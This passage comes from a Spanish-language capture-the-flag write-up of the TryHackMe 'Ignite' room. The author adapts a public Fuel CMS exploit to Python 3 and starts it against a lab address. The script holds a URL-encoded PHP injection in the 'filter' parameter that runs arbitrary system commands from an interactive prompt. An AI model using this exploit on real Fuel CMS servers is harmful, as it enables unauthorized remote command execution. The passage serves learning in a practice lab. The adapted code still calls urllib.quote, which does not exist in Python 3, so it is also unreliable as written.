 ```
	r = requests.get(burp0_url, proxies=proxy)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

Le echamos un ojo y vemos que hay un par de cosas que modificar.

* El valor de la variable `url`&nbsp; debe ser el de nuestro servidor remoto.

* La función `raw_input()`&nbsp; ha sido renombrada como `input()`&nbsp; en **python3**.

* La variable `proxy`&nbsp; no la necesitamos.

* La función `print`&nbsp; hay que reescribirla para **python3**.

Tras los cambios, el fichero `ignite.py`&nbsp; nos queda tal que así:

```
import requests
import urllib

url = "http://10.10.254.226"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"

	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print(r.text[0:dup])
```

Lo ejecutamos a ver si funciona

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Ignite]
└─$ python3 ignite.py
cmd:
```
